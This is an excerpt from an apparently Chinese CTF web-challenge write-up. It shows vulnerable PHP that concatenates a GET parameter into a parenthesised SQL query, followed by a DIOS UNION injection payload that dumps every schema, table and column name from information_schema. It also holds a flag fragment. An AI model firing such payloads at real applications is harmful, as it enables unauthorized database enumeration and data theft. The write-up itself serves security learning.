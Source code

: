 ```
wow 你找到了第二个彩蛋哦~
_S0_ne3t? (2/?)
```

### 07. 这是什么？SQL ！注一下 ！

 题目给了源代码

```php
$sql = "SELECT username,password FROM users WHERE id = ".'(((((('.$_GET["id"].'))))))';

$result = $conn->query($sql);
```

以及Executed Operations

```
Executed Operations:
SELECT username,password FROM users WHERE id = (((((())))))
```

直接闭合

![image-20230514003459468](Web_Writeup/image-20230514003459468.png)

使用DIOS

```mysql
-1)))))) union select (select (@) from (select(@:=0x00),(select (@) from (information_schema.columns) where (table_schema>=@) and (@)in (@:=concat(@,0x0D,0x0A,' [ ',table_schema,' ] > ',table_name,' > ',column_name,0x7C))))a),2#
```
